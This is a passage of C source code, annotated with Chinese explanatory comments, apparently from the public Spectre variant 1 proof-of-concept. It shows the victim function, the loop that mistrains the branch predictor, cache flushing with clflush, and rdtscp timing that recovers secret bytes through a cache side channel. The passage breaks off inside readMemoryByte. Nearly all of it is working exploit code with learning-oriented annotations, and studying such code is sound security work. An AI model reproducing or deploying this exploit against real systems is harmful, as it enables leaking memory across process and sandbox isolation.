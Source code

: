 ```c
 void victim_function(size_t x) {
 	if (x < array1_size) {
 		temp &= array2[array1[x] * 512];
 	}
 }


 /********************************************************************
 Analysis code
 ********************************************************************/
 #define CACHE_HIT_THRESHOLD (80) /* 缓存命中阀值，如果请求时间小于这个阀值，则意味着缓存命中。*/

 /* Report best guess in value[0] and runner-up in value[1] */
 /* 计算输出命中缓存最有可能的value值以及排第二的value */
 void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2]) {
 	static int results[256];
 	int tries, i, j, k, mix_i, junk = 0;
	size_t training_x, x;
 	register uint64_t time1, time2;
 	volatile uint8_t *addr;

 	for (i = 0; i < 256; i++)
 	results[i] = 0;
 	/* 用大循环“训练”CPU的分支预测，让CPU微结构认为下次也应该走向读取内存这一分支。 */
 	for (tries = 999; tries > 0; tries--) {
 	/* Flush array2[256*(0..255)] from cache */
 	for (i = 0; i < 256; i++) /* 清除array2数组的缓存 */
 	_mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */ /* 使用_mm_clflush方法清除array2在cache中的缓存 */

 	/* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
 	training_x = tries % array1_size; /* 对应array1 x的合法访问位置。 */
 	for(j = 29; j >= 0; j--) {
 	_mm_clflush(&array1_size);
 	for(volatile int z = 0; z < 100; z++) {} /* Delay (can also mfence) */

    /* 如果j%6!=0 x=training_x 反之x=malicious_x */
 	/* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
 	/* Avoid jumps in case those tip off the branch predictor */
 	x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
 	x = (x | (x >> 16)); /* Set x=-1 if j&6=0, else x=0 */
 	x = training_x ^ (x & (malicious_x ^ training_x));

 	/* Call the victim! */
 	victim_function(x); /* 最终调用非法读取缓存函数 */

 }

 	/* Time reads. Order is lightly mixed up to prevent stride prediction */
    /* 这个循环判断array2缓存地址的访问时间，如果小于阀值，说明array2对应byte的位置已经缓存 */
 	for (i = 0; i < 256; i++) {
 		mix_i = ((i * 167) + 13) & 255; /* 这里我理解是，在循环中，让mix_i在0～255之间随机分布，mix_i用来返回字符ascii值 */
 		addr = &array2[mix_i * 512]; /* 取array2对应的地址，刚刚temp缓存过 */
 		time1 = __rdtscp(&junk); /* READ TIMER */ /* 获取上一个array2读取地址读取的时间 */
 		junk = *addr; /* MEMORY ACCESS TO TIME */ /* 获取array2内存中对应的地址值 */
 		time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */ /* 计算时间差（过去的时间）*/
 		if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size]) /* 如果读取单个byte cache缓存的时间
 		小于阀值且访问的位置mix_i属于字符串数组界限以外，没有缓存的话redscp读的差不多是一个不变定值，有缓存的话会有大小改变，所以这里以
 		前后访问缓存页面的时间差判断没有问题。 */
 			results[mix_i]++; /* cache hit - add +1 to score for this value */
 		}
	/* Locate highest & second-highest results results tallies in j/k */
```